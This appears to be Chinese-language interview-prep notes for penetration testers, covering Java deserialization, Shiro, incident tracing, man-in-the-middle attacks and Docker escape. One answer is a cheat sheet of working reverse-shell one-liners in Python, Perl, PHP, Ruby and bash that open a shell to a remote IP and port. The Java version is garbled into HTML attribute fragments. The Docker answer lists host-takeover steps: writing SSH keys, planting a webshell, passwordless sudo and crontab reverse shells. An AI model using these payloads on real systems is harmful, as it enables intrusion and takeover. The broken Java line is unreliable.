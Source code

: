 **5.APP客户端爆ip**

### 5.java反序列化的原理? java反序列化用到的函数

https://www.freebuf.com/vuls/270859.html

### 6.护网的溯源是怎样做的? shiro反序列化漏洞原理

溯源https://www.freebuf.com/articles/web/289450.html 

反弹shell：

```
1、Python版本： python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" 

2、Perl版本： perl -e 'use Socket;$i="192.168.10.13";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  

3、PHP版本： php -r '$sock=fsockopen("192.168.10.13",8888);exec("/bin/sh -i <&3>&3 2>&3");'  

4、Ruby版本： ruby -rsocket -e'f=TCPSocket.open("192.168.10.13",8888).to_i;exec sprintf("/bin/sh -i <&%d>&%d 2>&%d",f,f,f)'  

5、Java版本： r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.10.13/8888;cat <&5 2="" |="" while="" read="" line;="" do="" \$line="">&5 >&5; done"] as String[]) p.waitFor()
```



```bash
bash -i >& /dev/tcp/ip/port 0>&1
```

### 7.中间人攻击原理讲一下

通过拦截正常的网络通信数据，并进行数据篡改和嗅探，而通信的双方却毫不知情

### 8.实战项目中令你最影响的漏洞

### 9.逻辑漏洞你怎么去找的

### 10.docker未授权访问漏洞了解过吗，讲一下? docker逃逸了解过吗?

1. Docker是以root权限运行的，这是所有姿势的前提

1. Docker在运行一个容器的时候可以将宿主机上的一个目录挂载到容器内的一个目录，我们可以参考redis未授权访问漏洞，将宿主机的/root/.ssh目录挂载到容器上，然后写入公钥。如果有web目录的话，最差也能上一个webshell。

1. 有些服务器不允许root登录，可以写入其他用户的.ssh/目录下（通过查看/etc/ssh/sshd_config目录），然后修改/etc/sudoer中的文件，配置为sudo免密码，切换为root

1. 还可以通过crontab写计划任务反弹shell
